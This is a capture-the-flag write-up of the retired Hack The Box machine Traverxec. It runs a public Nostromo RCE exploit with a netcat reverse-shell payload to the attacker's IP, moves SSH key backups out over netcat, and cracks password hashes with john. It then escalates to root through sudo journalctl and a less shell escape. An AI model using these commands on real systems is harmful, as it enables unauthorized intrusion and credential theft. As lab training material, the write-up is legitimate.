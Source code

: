 ```yaml
---
layout: default
---
```

## Traverxec
###### Retired April 2020
![](https://www.hackthebox.eu/storage/avatars/6ce5fcdd63f07a5ce91d0b8e4579b163.png)

Life is short. [Need to skip to root?](#root)

This was a machine with secrets everywhere. A hidden (,hidden?) directory and a tricky sizing trick with privesc to root.

The IP has been added to my ```/etc/hosts``` file as traverxec.htb. Starting with nmap, I did a quick portscan of all ports and got back hits on 22 and 80. A full scan of those ports revealed:

![](https://yaboygmoney.github.io/htb/images/traverxec/1.png)

The results show that port 80 is running Nostromo version 1.9.6. Some quick recon on the version shows that the particular version provides remote code execution (RCE) capability by exploiting a LFI vulnerability. There are several ways to exploit this vulnerability: manually is pretty easy via web requests, a [python script](https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py) is easier, and [Metasploit has a module](https://www.exploit-db.com/exploits/47573) that's easiest. I opted for the python exploit.

To get a shell, I needed a listener ready:

```bash
nc -nvlp 1234
```

and to make the call using the PoC code:

```bash
python exploit.py traverxec.htb 80 "nc 10.10.14.31 1234 -e /bin/bash"
```

![](https://yaboygmoney.github.io/htb/images/traverxec/shell.png)

The shell is created and I can see that I landed on the machine as www-data.

Initial enumeration didn't show much for any binary/SUID exploitation for privesc, but looking through the Nostromo configuration revealed an .htpasswd file with a hash inside. I cracked it and revealed a password ```Nowonly4me```. It didn't work for SSH as David, and it turns out I didn't really end up needing it at all. 

![](https://yaboygmoney.github.io/htb/images/traverxec/5.png)

The password was for a basic authentication prompt and would have been needed if I did the upcoming steps through a browser. Moving on.

The Nostromo configuration file located at ```/var/nostromo/conf/nhttpd.conf``` provided the necessary information for privesc to david. In the ```#BASIC AUTHENTICATION``` section, we can see that while optional, it is configured. We have the password from the .htpasswd file already. 

![](https://yaboygmoney.github.io/htb/images/traverxec/4.png)

Looking further down the file is the ```HOMEDIRS``` configuration. Reading the [documentation for nhttpd](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd), I learned that it's possible to share home directories for users with a leading ```~``` character followed by their name, for example ```http://traverxec.htb/~david/```.

The configuration also shows that it's possible to provide a ```public_www``` directory. I didn't have permission to list directories from David's home directory, but I could go straight to ```/home/david/public_www``` directory. 

![](https://yaboygmoney.github.io/htb/images/traverxec/6.png)

I shipped the compressed file back to my local machine using a netcat file transfer:

```bash
nc -w 3 10.10.14.31 1235 < backup-ssh-identity-files.tgz # On remote machine
nc -nvlp 1235 > ssh.tgz # On local machine
```

![](https://yaboygmoney.github.io/htb/images/traverxec/7.png)

and decompressed the contents. Inside was David's private SSH key.

![](https://yaboygmoney.github.io/htb/images/traverxec/8.png)

I tried to SSH with just the key, but SSH still wanted a password, and not the password cracked from earlier. To get the password, we can to carve it out of the key file.

I ran the key through ```ssh2john``` and kicked it out to a text file that ```john``` can work with. From there, I can run the text file through ```john```.

```bash
/usr/share/john/ssh2john.py home/david/.ssh/id_rsa > ssh2johnhash.txt
john ssh2johnhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

After a few seconds the hash is cracked and I'm given the password ```hunter```.

![](https://yaboygmoney.github.io/htb/images/traverxec/9.png)

Now I can SSH using the same command as earlier, but provide the password this time and I'm in.

```bash
ssh -i home/david/.ssh/id_rsa david@traverxec.htb
```

![](https://yaboygmoney.github.io/htb/images/traverxec/10.png)

Now for root.<a name="root"></a>

In david's home directory, there's a ```bin``` directory. One of the files called ```server-stats.sh``` ends with the line ```/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat```. This is our way in. 

![](https://yaboygmoney.github.io/htb/images/traverxec/11.png)

Here's the breakdown:
1. Since David owns this script, we can assume that every line in the script is able to be executed manually outside of the script.
2. The last line is run with root permissions.
3. The ```journalctl``` binary that is run as root actually runs on top of the ```less``` binary. It's possible to drop into a shell from within ```less``` (see [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/#sudo)).

So to get a root shell, all I have to do is run

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

But there's a very creative catch. The command prompt MUST be small enough that the entire script cannot be displayed on the screen to actually force the ```less``` binary to be necessary. So the above command should be ran in a tiny command prompt window.

Now I'm in a ```less``` environment. From here just type

```bash
!/bin/bash
```

![](https://yaboygmoney.github.io/htb/images/traverxec/12.png)

and a shell is executed under the context of root.

![](https://media.giphy.com/media/26FPqAHtgCBzKG9mo/giphy.gif)

Thanks for reading.

#### Keep trying
